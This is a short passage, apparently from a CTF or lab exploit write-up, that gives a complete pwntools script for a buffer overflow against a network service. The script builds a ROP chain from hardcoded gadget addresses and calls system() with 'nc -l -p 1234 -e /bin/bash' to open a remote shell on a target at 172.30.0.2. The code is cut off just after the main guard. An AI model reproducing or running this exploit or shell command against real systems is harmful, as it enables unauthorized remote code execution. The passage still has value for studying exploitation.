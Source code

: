 As long as `stdout` and `stderr` aren't dup into connecting socket, we need to open reverse shell. Since we control string for `system` it's not a problem at all.

The final exploit is next:

```python
from pwn import *


def send_msg(pc, type, indata, size=None):
    if size is None:
        size = len(indata)

    data = ''
    data += p32(size)
    data += p32(type)
    data += indata

    pc.send(data)


def main():
    system = 0x401A10
    
    add_rsp = 0x409070
    
    pops = 0x4021cc
    mov_rax_r11_pop_pop_pop = 0x40a771
    mov_rdi_rbp_call_rax = 0x421678
    add_ebp_eax = 0x409267
    pop_rax = 0x409073
    push_rax_pop_rbx = 0x44f262
    mov_rax_r13_pop_pop_pop = 0x40c80a
    
    mov_rdi_rbx_call_r12 = 0x4a7f8c

    add_rax_rdx = 0x40e7ed
    sub_rax_rsi = 0x4096cf
    
    pop_rsi = 0x401e89
    pop_rdx = 0x4bb28e
    pop_r12 = 0x402048
    
    cmd = 'nc -l -p 1234 -e /bin/bash' + '\x00'

    # pc = remote('127.0.0.1', 6210)
    pc = remote('172.30.0.2', 6210)

    payload = p64(mov_rax_r13_pop_pop_pop) + p64(0) + p64(0) + p64(0) + \
        p64(pop_rsi) + p64(0x870) + \
        p64(sub_rax_rsi) + \
        p64(push_rax_pop_rbx) + \
        p64(pop_r12) + p64(pop_rax) + \
        p64(mov_rdi_rbx_call_r12) + \
        p64(system)

    send_msg(pc, 109, ('A' * 8) + 4 * p64(pops) + \
        p64(add_rsp) + p64(0x41424344) + \
            payload + cmd + \
            'B' * (0x4b8 - len(payload) - len(cmd)), 0)

    pc.interactive()


if __name__ == '__main__':
```